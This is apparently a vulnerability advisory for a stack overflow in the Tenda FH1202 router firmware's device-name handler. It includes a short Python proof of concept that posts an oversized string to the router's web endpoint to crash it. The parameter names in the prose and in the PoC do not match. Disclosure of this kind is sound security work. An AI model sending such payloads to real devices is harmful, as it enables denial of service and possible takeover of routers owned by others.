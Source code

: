 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `formSetDeviceName` function. The `v4` variable receives the `deviceId` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `deviceId` can trigger this security vulnerability.

![image-20240319231037757](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319231037757.png)

![image-20240319231029213](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319231029213.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*1000

data = {"d": payload,"devName": 1}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319231402982.png)

